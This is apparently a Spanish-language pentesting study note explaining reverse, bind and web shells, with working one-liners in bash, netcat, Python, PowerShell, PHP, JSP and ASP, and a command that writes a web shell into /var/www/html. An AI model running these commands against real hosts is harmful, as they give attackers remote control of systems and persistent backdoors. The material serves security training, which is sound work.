 Una vez que comprometemos un sistema y explotamos una vulnerabilidad para ejecutar comandos en los hosts comprometidos de forma remota, generalmente necesitamos un método de comunicación con el sistema para no tener que seguir explotando la misma vulnerabilidad para ejecutar cada comando.

Existen tres tipos principales de shells: Reverse Shell, Bind Shell y Web Shell. Cada uno de estos shells se comunica con nosotros de forma diferente para aceptar y ejecutar nuestros comandos.

![[Pasted image 20250323193829.png]]

#  Reverse Shell
Un shell inverso es el tipo de shell más común, ya que es el método más rápido y sencillo para obtener control sobre un host comprometido. Una vez que identificamos una vulnerabilidad en el host remoto que permite la ejecución remota de código, podemos iniciar un escucha netcat en nuestra máquina que escuche en un puerto específico, digamos el puerto 1234. Con este oyente en su lugar, podemos ejecutar un comando de shell inverso que conecta el shell de sistemas remotos, es decir, Bash o PowerShell a nuestro oyente netcat, lo que nos brinda una conexión inversa a través del sistema remoto.

## Netcat Listener
El primer paso es iniciar un escucha netcat en un puerto de nuestra elección:
![[Pasted image 20250323194928.png]]

## Connect Back IP
Sin embargo, primero necesitamos encontrar la IP de nuestro sistema para enviarnos una conexión inversa. Podemos encontrar nuestra IP con el siguiente comando:
![[Pasted image 20250323195241.png]]

## Reverse Shell Command
El comando que ejecutamos depende del sistema operativo en el que se ejecuta el host comprometido, es decir, Linux o Windows, y de las aplicaciones y comandos a los que podemos acceder.

La página [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) tiene una lista completa de comandos de shell inverso que podemos usar y que cubren una amplia gama de opciones según nuestro host comprometido.

Ciertos comandos de shell inverso son más confiables que otros y generalmente se pueden intentar para obtener una conexión inversa.

Si el equipo comprometido es un linux.
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Si el equipo comprometido es un windows.
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

# Bind Shell
Otro tipo de shell es el Bind Shell. A diferencia del Reverse Shell, que se conecta con nosotros, tendremos que conectarnos a él en el puerto de escucha de los objetivos.

Una vez que ejecutamos un comando Bind Shell, comenzará a escuchar en un puerto en el host remoto y vinculará el shell de ese host, es decir, Bash o PowerShell, a ese puerto. Tenemos que conectarnos a ese puerto con netcat, y obtendremos el control a través de un shell en ese sistema.

## Bind Shell Command

Una vez más, podemos utilizar [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/)para encontrar un comando apropiado para iniciar nuestro shell de enlace.
![[Pasted image 20250323203055.png]]

Nota: iniciaremos una conexión de escucha en el puerto '1234' del host remoto, con IP '0.0.0.0' para que podamos conectarnos a él desde cualquier lugar.

Los siguientes son comandos confiables que podemos usar para iniciar un shell de enlace:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

## Netcat Connection

Una vez que ejecutemos el comando "bind shell", deberíamos tener un shell esperándonos en el puerto especificado. Ahora podemos conectarnos.

Podemos usar netcat para conectarnos a ese puerto y obtener una conexión al shell:
![[Pasted image 20250323203856.png]]
Como podemos ver, accedemos directamente a una sesión bash y podemos interactuar con el sistema de destino directamente.  A diferencia de un shell inverso, si perdemos nuestra conexión a un shell de enlace por cualquier motivo, podemos conectarnos nuevamente a él y obtener otra conexión inmediatamente. Sin embargo, si el comando bind shell se detiene por cualquier motivo, o si se reinicia el host remoto, aún perderíamos nuestro acceso al host remoto y tendremos que explotarlo nuevamente para obtener acceso.


### Actualización de TTY
La TTY de nc es muy limitada, debemos darle un tratamiento.  Esto se puede lograr asignando nuestro terminal TTY al TTY remoto.

Existen varios métodos para hacerlo. Para nuestros fines, usaremos el método python/stty. En nuestra shell netcat, usaremos el siguiente comando para usar Python y actualizar el tipo de nuestra shell a un TTY completo:

```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```

Después de ejecutar este comando, presionaremos Ctrl+z para poner en segundo plano nuestro shell y regresar a nuestra terminal local, e ingresaremos el siguiente comando stty:
![[Pasted image 20250323205205.png]]
Podemos presionar Enter nuevamente para regresar a nuestro shell o ingresar restablecer y presionar Enter para regresarlo.


Podemos notar que nuestro shell no cubre toda la pantalla. Para solucionar esto, necesitamos definir algunas variables. Podemos abrir otra ventana de terminal en nuestro sistema, maximizar las ventanas o usar el tamaño que queramos y luego ingresar los siguientes comandos para obtener nuestras variables:

![[Pasted image 20250323205909.png]]

El primer comando nos mostró la variable TERM, y el segundo, los valores de las filas y columnas, respectivamente. Ahora que tenemos nuestras variables, podemos volver a la consola de netcat y usar el siguiente comando para corregirlas:

![[Pasted image 20250323210030.png]]

Una vez que hagamos eso, deberíamos tener un shell netcat que utilice todas las funciones de la terminal, como una conexión SSH.

# Web Shell
El último tipo de shell que tenemos es un Web Shell. Un Web Shell suele ser un script web, es decir, PHP o ASPX, que acepta nuestro comando mediante parámetros de solicitud HTTP, como GET o POST, y lo ejecuta e imprime su salida en la página web.

## Writing a Web Shell
En primer lugar, necesitamos escribir nuestro shell web que tomaría nuestro comando a través de una solicitud GET, lo ejecutaría e imprimiría su salida. Un script de shell web suele ser un código de una sola línea, muy breve y que se puede memorizar fácilmente. Los siguientes son algunos scripts de shell web cortos y comunes para lenguajes web comunes:

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

## Cargar un Web Shell
Una vez que tenemos nuestro shell web, necesitamos colocar nuestro script de shell web en el directorio web del host remoto (webroot) para ejecutar el script a través del navegador web. Esto puede suceder a través de una vulnerabilidad en una función de carga, que nos permitiría escribir uno de nuestros shells en un archivo, es decir, shell.php y cargarlo, y luego acceder a nuestro archivo cargado para ejecutar comandos.

Sin embargo, si solo disponemos de ejecución remota de comandos mediante un exploit, podemos escribir nuestro shell directamente en la webroot para acceder a ella a través de la web. Por lo tanto, el primer paso es identificar la ubicación de la raíz web. Las siguientes son las webroots predeterminadas para servidores web comunes:

![[Pasted image 20250323213525.png]]

Podemos revisar estos directorios para ver qué directorio raíz web está en uso y luego usar echo para escribir nuestro shell web. Por ejemplo, si atacamos un host Linux con Apache, podemos escribir un shell PHP con el siguiente comando:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## Accediendo a Web Shell

Una vez que escribimos nuestro shell web, podemos acceder a él mediante un navegador o usando cURL. Podemos visitar la página shell.php en el sitio web comprometido y usar ?cmd=id para ejecutar el comando id: 

![[Pasted image 20250323214639.png]]

Otra opción es utilizar cURL:
![[Pasted image 20250323214714.png]]

Como podemos ver, podemos seguir modificando el comando para obtener su salida. Una gran ventaja de un shell web es que evita cualquier restricción del firewall, ya que no abre una nueva conexión en un puerto, sino que se ejecuta en el puerto web 80 o 443  O cualquier puerto que use la aplicación web. Otra gran ventaja es que, si se reinicia el host comprometido, el shell web seguirá funcionando y podremos acceder a él y ejecutar comandos sin tener que volver a explotar el host remoto.

Por otro lado, un shell web no es tan interactivo como lo son los shell inversos o la Blind Shell, ya que tenemos que seguir solicitando una URL diferente para ejecutar nuestros comandos. Aún así, en casos extremos, es posible codificar un script en Python para automatizar este proceso y brindarnos un shell web semiinteractivo directamente dentro de nuestra terminal.